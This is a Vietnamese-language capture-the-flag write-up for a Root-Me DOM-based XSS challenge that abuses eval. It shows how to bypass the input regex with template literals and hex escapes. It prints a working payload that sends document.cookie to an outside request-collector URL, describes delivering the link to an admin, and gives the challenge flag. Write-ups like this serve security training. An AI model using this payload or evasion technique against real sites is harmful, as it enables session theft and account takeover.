# Write up challenge XSS DOM Based - Eval

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)<br>
</br>


Truy cập challenge ta thấy có một ô input 

 

<br>

Tiến hành nhập thử thì nhận được regex  



<br>

Dựa vào `Let's calculate!` cũng như regex có được ta nhập lại và đoán được phần nào khi nhập đúng sẽ thực hiện tính toán

 

 

<br> 

Để ý thấy regex thực hiện kiểm tra phần đầu chuỗi nhập vào nên ta sẽ không thể chèn trực tiếp lệnh, thử cộng thêm lệnh phía sau. Tuy nhiên dấu `(` không được nên ta thay thế bởi dấu `



<br>

Thật vậy có lỗ hổng!



<br>

Tuy nhiên khi khai thác bằng các câu lệnh khác ta phát hiện khoảng trắng và `<`, `>` không được nhập. Sau khi search thì em tìm được một cú pháp tránh các kí hiệu đó 



<br>

Tiến hành sử dụng theo cú pháp,đổi các dấu ngoặc đơn, dấu “<>” và các ký tự đặc biệt như dấu nháy đơn, khoảng trắng  ra mã ascii hexa tương ứng câu lệnh  

    document.write("");

<br>

Cuối cùng ta có được code khai thác 

    1+2+[]["filter"]["constructor"]`document.write\x28\x22\x3cimg\x20src=\x27https://requestinspector.com/inspect/01fzg5c75hkg0yw6dcfzrgvybd/\x22+document.cookie+\x22\x27\x3e\x22\x29```


<br>

Thành công chèn ảnh 



<br> 


Nhận được request chứa cookie của user



<br>

Tiến hành gửi url chứa ảnh lỗi cho admin




<br>

Có được flag và dùng burpsuite decode ra 




<br>


Submit thành công 



<br><br>

> **Flag:** rootme{Eval_Is_DangER0us}

